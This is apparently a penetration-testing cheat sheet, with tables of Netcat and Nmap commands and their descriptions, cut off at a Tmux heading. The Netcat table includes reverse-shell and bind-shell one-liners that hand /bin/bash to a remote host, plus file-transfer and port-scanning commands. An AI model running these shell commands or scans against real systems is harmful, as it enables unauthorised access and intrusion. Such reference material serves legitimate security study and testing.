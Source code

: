 
## 🔌 Netcat (Swiss Army Knife)

| # | Command | Description |
|---|---------|-------------|
| 1 | `nc -nv 10.10.10.10 80` | Basic TCP connection |
| 2 | `nc -nlvp 4444` | Listen on port 4444 |
| 3 | `nc -nv 10.10.10.10 4444 -e /bin/bash` | Reverse shell |
| 4 | `nc -nlvp 4444 -e /bin/bash` | Bind shell |
| 5 | `nc -nv 10.10.10.10 80 < input.txt` | Send file contents |
| 6 | `nc -nlvp 4444 > output.txt` | Receive file |
| 7 | `nc -nvz 10.10.10.10 1-1000` | Port scan (TCP) |
| 8 | `nc -nvu 10.10.10.10 161` | UDP connection |
| 9 | `nc -nlvp 4444 -k` | Keep listener alive after disconnect |
| 10 | `echo "test" \| nc -nv 10.10.10.10 80` | Send quick data |

---

## 📡 Nmap (Network Mapper)

| # | Command | Description |
|---|---------|-------------|
| 1 | `nmap 10.10.10.10` | Basic scan |
| 2 | `nmap -sV 10.10.10.10` | Service/version detection |
| 3 | `nmap -sC 10.10.10.10` | Run default scripts |
| 4 | `nmap -sC -sV 10.10.10.10` | Comprehensive scan |
| 5 | `nmap -p- 10.10.10.10` | Scan all 65535 ports |
| 6 | `nmap -p 80,443,8080 10.10.10.10` | Scan specific ports |
| 7 | `nmap -A 10.10.10.10` | Aggressive scan (OS, version, scripts) |
| 8 | `nmap -sU 10.10.10.10` | UDP scan |
| 9 | `nmap -O 10.10.10.10` | OS detection |
| 10 | `nmap -oA scan_results 10.10.10.10` | Save results (all formats) |

---

## 🖥️ Tmux (Terminal Multiplexer)
